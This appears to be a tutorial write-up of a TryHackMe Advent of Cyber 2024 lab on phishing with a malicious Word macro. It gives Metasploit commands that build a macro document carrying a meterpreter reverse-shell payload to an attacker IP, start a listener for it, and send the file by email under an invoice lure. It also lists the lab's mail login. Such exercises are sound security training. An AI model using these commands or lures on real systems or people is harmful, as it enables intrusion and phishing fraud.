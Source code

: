 # **Tutorial: Room - Advent of Cyber 2024 - Day 10**

## 📖 Description
In this room, the objective was to exploit a vulnerability in a Microsoft Word document containing a malicious macro. We used Metasploit to set up a reverse shell, which allowed us to remotely access the victim's machine and capture the flag.

---

### **Learning Objectives**
- Understand how phishing attacks work.
- Discover how macros in documents can be used and abused.
- Learn how to carry out a phishing attack with a macro.

---

### **Phishing Attacks**
Security is only as strong as the weakest link in the chain. Many would argue that humans are often the weakest link in security. Is it easier to exploit a patched system behind a firewall, or to convince a user to open an "important" document? This is why "human hacking," or social engineering, is often the easiest route to compromise a system.

Phishing, a form of social engineering, works by sending "bait" to a large group of target users. The attacker often crafts the message with a sense of urgency, prompting the target to take immediate action, which increases the chances of success. The goal is to steal personal information or install malware by convincing the user to open a file, fill out a form, or click a link.

An example might be an email claiming that a large charge is pending, urging the recipient to check the attached document or URL. The attacker just needs the target to open the file or click the link, triggering actions that allow them to control the victim's system.

---

### **Macros**
Macros are used to automate repetitive tasks, such as inserting text or performing calculations. Microsoft Office products like Word support macros, which can be a huge time-saver for users. However, these macros can also be hijacked and used for malicious purposes in cyber attacks.

In the case of phishing, an attacker can create a document with a macro that, once opened, executes a payload on the victim's system, giving the attacker remote control.

---

### **Attack Plan**
The attacker, Mayor Malware, needs to create a document with a malicious macro. Upon opening the document, the macro will execute a payload and connect to the attacker’s machine, giving them remote control. The steps are as follows:

1. Create a document with a malicious macro.
2. Start listening for incoming connections on the attacker’s system.
3. Send the malicious document and wait for the victim to open it.
4. The victim opens the document and connects to the attacker’s system.
5. The attacker gains control of the victim’s system.

---

## 🛠️ Prerequisites
- Active account on [TryHackMe](https://tryhackme.com)
- Basic knowledge of Metasploit and social engineering attacks.
- Tools required:
  - [Metasploit](https://docs.metasploit.com/)
  - Access to the mail server(Rainloop) to send the email

---

## 🚀 Step-by-Step Guide

### 1️⃣ Initial Setup in Metasploit
First, we need to configure the Metasploit payload. We’ll use a `windows/meterpreter/reverse_tcp` payload to receive a reverse connection from the victim's machine. The `[ATTACKERS_IP]` is the IP from our atack box.

```bash
msfconsole
set payload windows/meterpreter/reverse_tcp
use exploit/multi/fileformat/office_word_macro
set LHOST [ATTACKERS_IP]
set LPORT 8888
show options
exploit
```

### 2️⃣ Exploiting the Malicious Document
After setting up the exploit, we need to generate the malicious Word file with a macro and send it to the victim. Once the victim opens the file, the reverse shell will be triggered, establishing the connection.

---

### 3️⃣ Sending the Malicious Document via Email
To send the malicious document, we will use RainLoop, a webmail client available on the attacker's machine. You can access it by visiting the provided link on the AttackBox.

- **Link for accessing RainLoop**: [Link to RainLoop webmail client]
- **Login credentials**:
  - **Email**: `info@socnas.thm`
  - **Password**: `MerryPhishMas!`

Once logged in, compose an email to the victim (`marta@socmas.thm`). Attach the malicious Word file (renaming it to something convincing like `invoice.docm` or `receipt.docm`), and craft a message to encourage the victim to open it. For example, mention that it contains an important invoice or document that requires their attention.

---

### 4️⃣ Handling the Connection in Metasploit
After the victim opens the malicious file, the reverse connection is made. We configure Metasploit to listen for incoming connections.

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [ATTACKERS_IP]
set LPORT 8888
show options
exploit
```

### 5️⃣ Gaining Access to the Victim's Machine
Once the victim opens the document and runs the macro, we gain access to their system via the reverse shell. Now we can execute commands on their machine.

---

### 6️⃣ Capturing the Flag
With access to the victim’s machine, we navigate to the desktop and read the flag file.

```bash
cd c:/users/Administrator/Desktop
ls
cat flag.txt
```

### 7️⃣ Conclusion
By running the cat flag.txt command, we successfully obtain the flag, completing the room. Congratulations!

### 🖼️ Resources
(Include screenshots or useful links here.)

### 📌 Final Notes
This exercise demonstrated how to perform a phishing attack using a malicious macro to gain remote access to a system and exfiltrate information.

### 🏆 Final Outcome
After completing all the steps and capturing the flag, the room is finished.
